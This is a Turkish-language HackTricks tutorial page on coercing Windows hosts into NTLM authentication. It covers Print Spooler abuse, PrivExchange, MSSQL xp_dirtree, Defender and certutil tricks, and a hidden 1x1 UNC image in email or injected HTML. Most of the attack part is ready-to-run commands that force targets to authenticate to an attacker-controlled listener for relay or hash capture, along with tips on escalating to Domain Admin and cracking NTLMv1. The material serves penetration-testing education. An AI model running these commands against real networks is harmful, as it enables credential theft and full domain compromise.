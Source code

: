 # NTLM Ayrıcalıklı Kimlik Doğrulamasını Zorla

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers), 3. parti bağımlılıkları önlemek için MIDL derleyicisi kullanılarak C# ile kodlanmış **uzaktan kimlik doğrulama tetikleyicileri** **koleksiyonu**dur.

## Spooler Servisi İstismarı

Eğer _**Print Spooler**_ servisi **etkinse**, bazı bilinen AD kimlik bilgilerini kullanarak Alan Denetleyicisi’nin yazıcı sunucusuna yeni yazdırma işleri hakkında bir **güncelleme** **talep** edebilir ve sadece **bildirimi bazı sistemlere göndermesini** söyleyebilirsiniz.\
Yazıcı, bildirimi rastgele sistemlere gönderdiğinde, o **sistemle** **kimlik doğrulaması yapması** gerekir. Bu nedenle, bir saldırgan _**Print Spooler**_ hizmetinin rastgele bir sistemle kimlik doğrulaması yapmasını sağlayabilir ve hizmet bu kimlik doğrulamasında **bilgisayar hesabını** **kullanacaktır**.

### Alan üzerindeki Windows Sunucularını Bulma

PowerShell kullanarak, Windows kutularının bir listesini alın. Sunucular genellikle önceliklidir, bu yüzden oraya odaklanalım:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Spooler hizmetlerini dinleyenleri bulma

Biraz değiştirilmiş @mysmartlogin'in (Vincent Le Toux'un) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket) aracını kullanarak, Spooler Hizmetinin dinleyip dinlemediğini kontrol edin:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Linux'te rpcdump.py kullanabilir ve MS-RPRN Protokolü'nü arayabilirsiniz.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Servisten rastgele bir ana bilgisayara kimlik doğrulaması yapmasını isteyin

[ **Buradan SpoolSample'ı**](https://github.com/NotMedic/NetNTLMtoSilverTicket)** derleyebilirsiniz.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
ve Linux'taysanız [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) veya [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) kullanın
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Sınırsız Delegasyon ile Birleştirme

Eğer bir saldırgan [Sınırsız Delegasyon](unconstrained-delegation.md) ile bir bilgisayarı zaten ele geçirmişse, saldırgan **yazıcının bu bilgisayara kimlik doğrulaması yapmasını sağlayabilir**. Sınırsız delegasyon nedeniyle, **yazıcının bilgisayar hesabının TGT'si** sınırsız delegasyona sahip bilgisayarın **belleğinde** **saklanacaktır**. Saldırgan bu ana bilgisayarı zaten ele geçirdiği için, **bu bileti alabilecek** ve bunu kötüye kullanabilecektir ([Bileti Geç](pass-the-ticket.md)).

## RCP Zorla Kimlik Doğrulama

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange` saldırısı, **Exchange Server `PushSubscription` özelliğinde** bulunan bir hatanın sonucudur. Bu özellik, Exchange sunucusunun, bir posta kutusuna sahip herhangi bir alan kullanıcısı tarafından HTTP üzerinden herhangi bir istemci sağlanan ana bilgisayara kimlik doğrulaması yapmaya zorlanmasını sağlar.

Varsayılan olarak, **Exchange hizmeti SYSTEM olarak çalışır** ve aşırı ayrıcalıklar verilmiştir (özellikle, **2019 Öncesi Kümülatif Güncelleme üzerinde WriteDacl ayrıcalıkları vardır**). Bu hata, **LDAP'ye bilgi iletimini sağlamak ve ardından alan NTDS veritabanını çıkarmak** için sömürülebilir. LDAP'ye iletim mümkün olmadığında bile, bu hata, alan içindeki diğer ana bilgisayarlara iletim ve kimlik doğrulama yapmak için kullanılabilir. Bu saldırının başarılı bir şekilde sömürülmesi, herhangi bir kimlik doğrulaması yapılmış alan kullanıcı hesabıyla Alan Yöneticisi'ne anında erişim sağlar.

## Windows İçinde

Eğer zaten Windows makinesinin içindeyseniz, Windows'u ayrıcalıklı hesaplarla bir sunucuya bağlanmaya zorlayabilirsiniz:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
Or use this other technique: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

certutil.exe lolbin (Microsoft imzalı ikili) kullanarak NTLM kimlik doğrulamasını zorlamak mümkündür:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML enjeksiyonu

### E-posta ile

Eğer ele geçirmek istediğiniz bir makineye giriş yapan kullanıcının **e-posta adresini** biliyorsanız, ona **1x1 boyutunda bir resim içeren bir e-posta** gönderebilirsiniz.
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
ve açtığında, kimlik doğrulamaya çalışacaktır.

### MitM

Eğer bir bilgisayara MitM saldırısı gerçekleştirebilir ve onun görüntüleyeceği bir sayfaya HTML enjekte edebilirseniz, sayfaya aşağıdaki gibi bir resim enjekte etmeyi deneyebilirsiniz:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1 Kırma

Eğer [NTLMv1 zorluklarını yakalayabilirseniz, nasıl kırılacağını buradan okuyun](../ntlm/#ntlmv1-attack).\
&#xNAN;_&#x52;emember NTLMv1'i kırmak için Responder zorluğunu "1122334455667788" olarak ayarlamanız gerektiğini unutmayın._

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
